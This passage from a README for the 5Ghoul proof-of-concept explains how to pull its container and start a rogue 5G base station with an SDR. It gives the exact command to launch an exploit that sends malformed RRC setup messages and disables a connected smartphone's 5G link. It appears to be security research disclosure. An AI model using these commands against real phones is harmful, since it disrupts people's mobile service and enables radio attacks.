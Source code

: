     <p align="center"><img src="./docs/figures/sim_cards.png" alt="sim_cards" width="130" height="auto" /></p>  
    
<p align="center"><a href="https://sysmocom.de/products/sim/sysmousim/index.html#">SysmoISIM-SJA2</a> programmable SIM/USIM/ISIM cards</p>

​    

# 2. ⏩ Quick Start 

To get started with *5Ghoul PoC*, we recomend usage of **5Ghoul Container**, available in our docker hub. To simplify its usage, we created a wrapper script to run the container with all the required docker arguments:

```bash
mkdir 5ghoul # Create 5ghoul folder
curl -LJO https://github.com/asset-group/5ghoul-5g-nr-attacks/raw/master/container.sh
chmod +x container.sh # Give exec. permission to the 5Ghoul container script
./container.sh pull release-5g # This will pull the 5Ghoul container
./container.sh run release-5g # This will start the terminal of the 5Ghoul container
sudo bin/5g_fuzzer --MCC=001 --MNC=01 # This will start the rogue base station inside the container
```

The final command above (`sudo bin/5g_fuzzer ...`) will start the rogue base station without any attack. Therefore, you can use this to verify if the connection between the rogue base station and the smartphone works in first place. Once the smartphone attempts to connect to the rogue base station, the *5Ghoul PoC* will indicate such connection by printing the message `"[!] 1/2 UE connected to eNB/gNB"`. This message indicates that your setup is working and ready to launch attacks. 

![normal-connection](./docs/figures/normal-connection.svg)

 

# 3. ☢️ Launching a 5Ghoul attack

To put it simply, you can just run the following command after connecting USRP B210 to your PC/Laptop:

```bash
sudo ./bin/5g_fuzzer --exploit=mac_sch_rrc_setup_crash_var --MCC=001 --MNC=01
```

Once the 5Ghoul PoC runs, it will start a rogue base station (gNB) using the provided MCC and MNC by the command line. You can attempt to connect to this rogue base station by inserting a compatible testing SIM card and scanning for operator networks in Android mobile connectivity settings. More details on this is provided in Section Phone Configuration.

When the smartphone connects to the rogue base station and an attack is launched, the terminal will print messages such as `"Malformed rrc setup sent!"`. These messages depend on the chosen exploit script. The Figure below exemplifies the expected output for the *5Ghoul* vulnerability **V7**, which disables the 5G connection of the smartphone. In this context, the smartphone won't be able to reconnect to the rogue base station and message` "Target is not responding"` is printed if no communication with the smartphone is possible after 45 seconds.

![poc-attack-v7](./docs/figures/poc-attack-v7.svg)
